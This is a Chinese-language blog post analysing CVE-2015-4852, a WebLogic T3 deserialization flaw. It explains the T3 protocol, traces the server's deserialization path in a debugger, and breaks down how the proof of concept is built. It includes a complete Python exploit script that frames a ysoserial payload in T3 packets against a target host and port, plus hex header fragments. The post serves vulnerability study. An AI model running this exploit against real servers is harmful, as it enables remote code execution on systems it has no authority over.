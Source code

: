 # CVE-2015-4852 WebLogic-T3反序列化分析

  
  
&lt;!--more--&gt;  
## 0x01 环境搭建  
本地搭建  
https://www.penson.top/article/av40  
## 0x02 基础知识  
### 关于Weblogic  
Weblogic和tomcat差不多，从功能上来说就是两个Web服务端，也就是启动器  
和Tomcat不同的地方在于，Weblogic可以自己部署很多东西，要知道，在Tomcat中，这些都是需要自己写代码的  
### T3协议  
T3协议其实是Weblogic内独有的一个协议，在Weblogic中对RMI传输就是使用的T3协议。在RMI传输当中，被传输的就是一串序列化的数据，在这串数据被接收后，执行反序列化的操作。  
在T3的这个协议里面包含请求包头和请求的主体的两部分内容。  
CVE-2015-4852 EXP  
```python  
#!/usr/bin/python  
import socket  
import struct  
import sys  
  
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
server_address = (sys.argv[1], int(sys.argv[2]))  
print &#39;connecting to %s port %s&#39; % server_address  
sock.connect(server_address)  
  
# Send headers  
headers=&#39;t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n&#39;  
print &#39;sending &#34;%s&#34;&#39; % headers  
sock.sendall(headers)  
  
data = sock.recv(1024)  
print &gt;&gt;sys.stderr, &#39;received &#34;%s&#34;&#39; % data  
payloadObj = open(sys.argv[3],&#39;rb&#39;).read()  
  
payload=&#39;\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00&#39;  
payload=payload&#43;payloadObj  
payload=payload&#43;&#39;\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78&#39;  
print &#39;sending payload...&#39;  
payload = &#34;{0}{1}&#34;.format(struct.pack(&#39;!i&#39;, len(payload)), payload[4:])  
  
sock.send(payload)  
```  
#### Weblogic请求包头  
我们需要通过Wireshark对这一个流量包执行抓包操作，后续抓到的包的请求头如图  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081731923.png)
  
这一个就是它请求包的头  
`t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001`  
在发送该请求包头后，服务端Weblogic会有一个响应，内容如下  
```txt  
HELO:10.3.6.0.false  
AS:2048  
HL:19  
```  
HELO 后面的内容则是被攻击方的 Weblogic 版本号，也就是说，在发送正确的请求包头后，服务端会进行一个返回 Weblogic 的版本号。  
#### Weblogic请求主体  
请求主体，也就是发送的数据，这些数据分为七部分内容，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081750329.png)
第一非Java序列化数据，也就是我们的请求头  
`t3 12.2.1 AS:255 HL:19 MS:10000000 PU:t3://us-l-breens:7001`  
后面第n部分的数据，其实是不限制的，也就是说，我可以只有一部分的Java序列化数据，也可以有七部分的Java序列化数据，这并不重要，我们可以观察一下`Wireshark`抓的包  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081753632.png)
在`ac ed 00 05`之后的内容便是序列化的数据，所以如果我们要进行攻击，应该是对于这一串序列化的数据进行恶意构造，让服务端在反序列化的时候发起攻击。  
而此处，如果有多个Java序列化的数据，可以对任一一个数据进行攻击即可  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081754786.png)
## 0x03 漏洞分析与调试  
### 影响版本  
Oracle WebLogic Server 10.3.6.0, 12.1.3.0, 12.2.1.2 and 12.2.1.3。  
### 漏洞分析  
通过`dir | findstr &#34;commons&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408081803722.png)
存在一个`commons.collections_3.2.0`的包  
直接找反序列化的入口类  
`Weblogic T3`对于RMI传递过来的数据在处理上还是比较绕的，  
在`InboundMsgAbbrev#readObject`处，下个断点开始调试  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031451756.png)
先跟进`ServerChannelInputStream`的构造函数，`ServerChannelInputStream`这个类的作用是处理服务端收到的请求头信息  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031455370.png)
继续跟进`getServerChannel()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031457744.png)
关注一下目前的`this.connection`是什么  
`connection`是`weblogic.rjvm.t3.MuxableSocketT3$T3MsgAbbrevJVMConnection@4d66781`这个类，在`this.connection`中主要存储了一些RMI连接的数据，包括端口地址等。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031458474.png)
跟进`getChannel()`方法，开始处理T3协议  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031459237.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031502046.png)
T3头处理结束，重新回到`InboundMsgAbbrev#readObject`处，跟进`readObject()`方法，一路跟进`InboundMsgAbbrev#resolveClass()`中，这里的调用栈如下  
```java  
resolveClass:108, InboundMsgAbbrev$ServerChannelInputStream (weblogic.rjvm)  
readNonProxyDesc:1610, ObjectInputStream (java.io)  
readClassDesc:1515, ObjectInputStream (java.io)  
readOrdinaryObject:1769, ObjectInputStream (java.io)  
readObject0:1348, ObjectInputStream (java.io)  
readObject:370, ObjectInputStream (java.io)  
readObject:66, InboundMsgAbbrev (weblogic.rjvm)  
read:38, InboundMsgAbbrev (weblogic.rjvm)  
```  
`resolveClass()`方法是用来处理类的，这些类在经过反序列化之后会走到`resolveClass()`方法这里，此时的`var1`，正是我们的`AnnotationInvocationHandler`类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031513851.png)
这时候`AnnotationInvocationHandler`类并不会被直接拿去反序列化，因为`Weblogic`服务端需要先加载所有反序列化的内容。在将所有数据反序列化解析完毕之后(也可以说只是做了`Class.forName()`的操作之后)，才会开始进行真正的反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031521170.png)
## POC理解  
POC的本质就是把ysoserial生成的payload变成T3协议里的数据格式，我们需要写入的有几段东西。  
1、Header，这代表了数据包长度  
2、T3 Header  
3、反序列化标志，也就是`fe 01 00 00`  
所以这三段话是这么来的  
```  
header = binascii.a2b_hex(b&#34;00000000&#34;)  
t3header = binascii.a2b_hex(b&#34;016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006&#34;)  
desflag = binascii.a2b_hex(b&#34;fe010000&#34;)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031524114.png)

---

> Author: N1Rvana  
> URL: http://localhost:1313/cve-2015-4852-weblogic-t3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/  

